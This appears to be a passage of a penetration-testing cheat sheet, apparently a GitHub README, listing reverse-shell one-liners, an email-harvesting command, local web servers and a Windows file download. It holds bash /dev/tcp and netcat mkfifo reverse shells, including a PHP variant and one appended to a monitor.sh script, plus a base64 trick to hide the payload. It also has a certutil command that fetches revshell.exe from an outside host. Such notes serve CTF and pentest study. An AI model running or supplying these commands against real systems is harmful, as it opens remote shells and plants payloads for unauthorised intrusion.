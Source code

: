 ```
```







# 16. Reverse_Shell_Script <a name="rev"></a> ---> (nc -lvnp 9001)
- [revshells.com](https://revshells.com)
- __`bash -c 'bash -i >& /dev/tcp/yourip/9001 0>&1'`__
- __Sometimes you need to encode__
  - __`bash -c 'bash -i >& /dev/tcp/yourip/9001 0>&1'`__ __save this in tmp file__
  - __`cat tmp | base64 -w 0`__
  - __`echo <encoded_command> | base64 -d | bash`__
- __PHP reverse shell__
    - __`<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8082 >/tmp/f"); ?>`__
    - __`nc -lnvp 8082`__
 - __SHELL script__
 - __`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8083 > /tmp/f" >> monitor.sh`__
 - __`nc -lnvp 8083`__



# [17. Privilege escalation](/Privilege.md)



# 18. Email Harversting with theHarvester <a name="email"></a>
- __`theHarvester -d <domain name> -b google,linkedin,yahoo,dnsdumpster,duckduckgo,crtsh,rapdiddns`__





# 19. Simple Local Web Servers <a name="localweb"></a>

```
python -m SimpleHTTPServer 80
```

```
python3 -m http.server
```

```
php -S 0.0.0.0:80
```
# Windows 
## I. certutil <a name="certutil"></a>
- `certutil -urlcache -f http://10.1.23.11/revshell.exe revshell.exe`
- 
## [II. Mimikatz](/Notes/mimi.md)
